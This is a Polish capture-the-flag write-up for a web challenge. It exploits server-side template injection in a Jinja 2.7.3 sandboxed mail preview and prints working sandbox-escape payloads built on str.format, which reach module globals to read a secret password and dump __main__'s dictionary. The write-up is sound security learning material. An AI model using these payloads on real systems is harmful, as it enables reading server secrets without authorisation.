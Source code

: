 # Różdżka chaosu, List do sołtysa, web

## Opis
"Szukając właściwego adresu, każdy strudzony kurier prędzej czy później trafi do sołtysa. Skoro nadal z mozołem szukasz różdżki chaosu, może warto napisać wiadomość do administratora gry?"

## Rozwiązanie

Treść zadania sugeruje odwiedzenie skrzynki mailowej. Wchodzimy na stronę i widzimy interesującą informację: "Linki automatycznie zamieniane są na klikalne. Możesz używać poniższych znaczników BBCode oraz dodatkowo struktur kontrolnych Jinja 2.7.3" co może sugerować Server Side Template Injection.

![recon](img/recon.png)

Wysyłając w treści `{{7*'7'}}` ukazuje się nam następujący widok:

![ssti](img/ssti.png)

Czyli mamy tutaj podatność SSTI. Ponownie korzystamy z mechanizmu podglądu kodu źródłowego strony i otrzymujemy:
```py
import jinja2, jinja2.sandbox
import smtplib, ssl
from .exceptions import *
from app import app

def send_mail(receiver, subject, body):
    return render_template(body)

def render_template(body):
    try:
        sandboxed_env = jinja2.sandbox.SandboxedEnvironment()
        template = sandboxed_env.from_string(body).render()
    except (jinja2.TemplateSyntaxError, jinja2.sandbox.SecurityError) as err:
        app.logger.error('Sandbox error:\n' + str(err))
        raise TemplateProblem("Template error")
    return template
```

Jak widzimy, treść maila trafia do Sandboxu, a potem jest renderowana. To czas, żeby poszukać podatności, które pozwolą na wyskoczenie z sanboxu. Po długim researchu natrafiłem na informację, że ta wersja Jinja (2.7.3) jest podatna na Sandbox Escape za pomocą str.format. Spróbujmy tego triku - jako payload podajemy `{{ '{0.__class__.__mro__}'.format('a') }}` i dostajemy w odpowiedzi:

![ssti2](img/ssti2.png)

W planach było wywołanie `__subclasses__()`, ale nie da się wywołać funkcji wewnątrz format stringa :(

Po jeszcze dłuższym researchu trafiłem na artykuł sekuraka: [https://sekurak.pl/podatnosc-server-side-template-injections/](https://sekurak.pl/podatnosc-server-side-template-injections/)
Przytoczony jest tam interesujący payload

```
{{ "{.func_globals[_mutable_sequence_types][1].insert.__func__.func_globals[sys].modules[__main__].SUPER_SECRET_DB_PASSWORD}".format(range) }}
```

Podczas lokalnych testów [task.py](./task.py) okazało się, że `__func__` nie istnieje w pythonie 3. Dlatego też payload został dostosowany i finalnie wygląda tak:

```py
{{ '{.__globals__[_mutable_sequence_types][1].insert.__globals__[sys].modules[__main__].__dict__}'.format(range) }}
```
co w efekcie daje:

![solve](./img/solve.png)




